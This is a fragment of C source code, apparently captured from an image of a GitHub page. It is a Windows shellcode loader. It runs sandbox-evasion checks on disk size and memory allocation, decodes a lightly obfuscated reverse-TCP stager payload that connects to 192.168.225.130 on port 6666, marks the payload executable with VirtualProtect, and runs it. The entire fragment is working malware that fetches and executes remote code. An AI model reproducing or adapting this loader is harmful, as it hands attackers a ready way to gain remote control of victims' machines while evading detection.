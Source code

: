 ```js
                GetDiskFreeSpaceEx(DiskName, (PULARGE_INTEGER)&DiskBytes, (PULARGE_INTEGER)&DiskSpace, (PULARGE_INTEGER)&DiskSpace2);
                if (DiskBytes >= 97785600)
                {

                    if (malloc(10485760))
                    {
                        char buf[] =
                            "\xff\xee\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52\x30\x8b\x52"//ff=fc,ee=e8
                            "\x0c\x8b\x52\x14\x89\xe5\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
                            "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
                            "\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x57\x8b\x40\x78"
                            "\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3"
                            "\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
                            "\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
                            "\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
                            "\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
                            "\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
                            "\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
                            "\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
                            "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\xe1\x82\x68\x02"
                            "\x00\x1a\x0a\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
                            "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
                            "\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
                            "\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
                            "\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
                            "\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
                            "\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
                            "\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
                            "\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
                            "\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
                            "\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
                        char buf2[sizeof(buf)] = { 0 };
                        char buf3[sizeof(buf)] = { 0 };
                        for (int s = 0; s < sizeof(buf); s++)
                        {
                            buf2[s] = ~buf[s];

                        }
                        for (int s = 0; s < sizeof(buf); s++)
                        {
                            buf3[s] = ~buf2[s];
                        }
                        buf3[0] = 0xfc;
                        buf3[1] = 0xe8;
                        char* exec = (char*)malloc(sizeof(buf));
                        CopyMemory(exec, buf3, sizeof(buf));

                        DWORD a = 0;
                        VirtualProtect(exec, sizeof(buf), PAGE_EXECUTE_READWRITE, &a);
                        ((char(*)())exec)();

                    }

                }

            }
        }
    }
}
```
